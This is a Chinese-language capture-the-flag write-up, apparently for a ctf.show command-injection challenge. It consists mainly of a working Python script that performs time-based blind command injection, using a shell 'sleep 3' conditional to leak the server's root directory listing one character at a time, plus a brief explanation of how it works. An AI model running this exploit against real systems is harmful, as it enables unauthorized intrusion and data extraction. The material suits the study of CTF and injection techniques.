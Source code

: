 ```
```

这题看着和前面那题是一样的

但实际上没有写文件的权限

这题可以通过时间盲注攻击获取文件名已经文件中的字符等

时间盲注脚本：

```python
import requests
import time
import string

str = string.ascii_letters + string.digits + "-" + "{" + "}" + "_" + "~"    # 构建一个包含所有字母和数字以及部分符号的字符串，符号可以自己加
result = ""          # 初始化一个空字符串，用于保存结果

#获取多少行
for i in range(1, 99):
    key = 0   #用于控制内层循环(j)的结束

    #不break的情况下，一行最多几个字符
    for j in range(1, 99):
        if key == 1:
            break
        for n in str:       #n就是一个一个的返回值
            payload = "if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)   #{n}是占位符
            #print(payload)
            url = "http://89e3e82d-d133-4a9e-a883-790d41e8a3b8.challenge.ctf.show?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))   #设置超时时间为 2.5 秒,包括连接超时和读取超时，超时就是之前sleep 3了。

            # 如果请求发生异常，表示条件满足，将当前字符 n 添加到结果字符串中，并结束当前内层循环
            except:
                result = result + n
                print(result)
                break
            if n == '~':    #str的最后一位，“~”不常出现，用作结尾
                key = 1
                
    # 在每次获取一个字符后，将一个空格添加到结果字符串中，用于分隔结果的不同位置
    result += " "

```

这个脚本的原理其实就是，通过shell编程中的if语句判断

```
ls /|awk 'NR=={0}'|cut -c {1}
```

中截取到的字符串是否与我们遍历的任一个字符匹配，若匹配成功则使用sleep命令使响应时间变为3s
